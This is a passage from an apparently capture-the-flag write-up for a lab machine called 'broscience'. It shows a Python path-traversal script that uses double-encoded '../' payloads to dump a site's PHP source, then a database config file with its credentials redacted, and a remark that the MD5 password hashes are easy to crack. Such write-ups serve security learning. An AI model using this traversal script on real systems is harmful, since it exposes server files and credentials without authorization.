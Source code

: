 We can now start iterating over all the files we earlier found in our `gobuster` scans.

```python
import requests
import sys
import urllib

# disable certificate warning
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)

url = sys.argv[1]

with open('directory.txt') as file:
    for line in file:
        line = line.strip()
        payload = f'../../../../../var/www/html/{line}'
        payload = urllib.parse.quote(urllib.parse.quote(payload, safe=""),safe="")
        # setting verify to False to ignore verifying the SSL certificate
        response = requests.get(url + payload, verify=False)
        print(f"{payload} - {response.status_code}")
        if response.status_code == 200:
            print(response.text)
            with open("./dump/"+line, 'wb') as f:
                f.write(response.content)
                f.close()
```

```bash
$ tree     
.
├── activate.php
├── comment.php
├── exercise.php
├── includes
│   ├── db-connect.php
│   └── img.php
├── index.php
├── login.php
├── logout.php
├── register.php
└── user.php
```

When looking through these files, we notice find some details that can help us move forward.

#### includes/db-connect.php
We find the db user and password along with the salt that is being used to store users their password. In the `user.php` file, we found the passwords are stored as a `MD5` hash, which is easy to crack.
```php
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "**REDACTED**";
$db_salt = "**REDACTED**";

$db_conn = pg_connect("host={$db_host} port={$db_port} dbname={$db_name} user={$db_user} password={$db_pass}");

if (!$db_conn) {
    die("<b>Error</b>: Unable to connect to database");
}
?>
```